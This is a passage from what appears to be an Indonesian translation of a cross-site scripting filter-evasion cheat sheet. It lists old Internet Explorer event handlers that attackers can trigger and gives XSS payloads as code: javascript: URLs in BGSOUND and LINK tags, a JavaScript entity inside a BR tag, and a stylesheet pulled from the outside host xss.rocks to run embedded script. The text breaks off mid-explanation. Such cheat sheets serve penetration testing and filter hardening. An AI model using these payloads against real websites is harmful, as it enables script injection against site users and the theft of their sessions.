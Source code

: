 - `onSyncRestored()` (pengguna menghentikan kemampuan elemen untuk memutar medianya sebagaimana ditentukan oleh timeline untuk diaktifkan)
- `onSubmit()` (memerlukan penyerang atau pengguna mengirimkan formulir)
- `onTimeError()` (pengguna atau penyerang menyetel properti waktu, seperti dur, ke nilai yang tidak valid)
- `onTrackChange()` (pengguna atau penyerang mengubah trek dalam daftar putar)
- `onUndo()` (pengguna kembali ke riwayat transaksi batal)
- `onUnload()` (saat pengguna mengklik tautan atau menekan tombol kembali atau penyerang memaksa klik)
- `onURLFlip()` (peristiwa ini dipicu saat file Advanced Streaming Format (ASF), diputar oleh tag media HTML+TIME (Timed Interactive Multimedia Extensions), memproses perintah skrip yang disematkan dalam file ASF)
- `seekSegmentTime()` (ini adalah metode yang menemukan titik yang ditentukan pada garis waktu segmen elemen dan mulai memutar dari titik tersebut. Segmen tersebut terdiri dari satu pengulangan alur waktu termasuk pemutaran terbalik menggunakan atribut AUTOREVERSE.)

#### BGSOUND

```js
<BGSOUND SRC="javascript:alert('XSS');">
```

#### & JavaScript termasuk

```html
<BR SIZE="&{alert('XSS')}">
```

#### Lembar GAYA

```html
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

### Lembar gaya jarak jauh

Dengan menggunakan sesuatu yang sederhana seperti lembar gaya jarak jauh, Anda dapat menyertakan XSS karena parameter gaya dapat didefinisikan ulang menggunakan ekspresi yang disematkan. Ini hanya berfungsi di IE. Perhatikan bahwa tidak ada apa pun di halaman yang menunjukkan bahwa ada JavaScript yang disertakan. Catatan: Dengan semua contoh lembar gaya jarak jauh ini, mereka menggunakan tag body, jadi tidak akan berfungsi kecuali ada beberapa konten di halaman selain vektor itu sendiri, jadi Anda perlu menambahkan satu huruf ke halaman agar berfungsi jika halaman tersebut kosong:

```html
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

#### Lembar gaya jarak jauh bagian 2

Ini berfungsi sama seperti di atas, tetapi menggunakan tag `<STYLE>` alih-alih tag `<LINK>`). Sedikit variasi pada vektor ini digunakan
untuk meretas Google Desktop. Sebagai catatan tambahan, Anda dapat menghapus tag akhir `</STYLE>` jika ada HTML tepat setelah vektor untuk menutupnya. Ini berguna jika Anda tidak dapat menggunakan tanda sama dengan atau garis miring dalam serangan skrip lintas situs, yang telah muncul setidaknya sekali di dunia nyata:

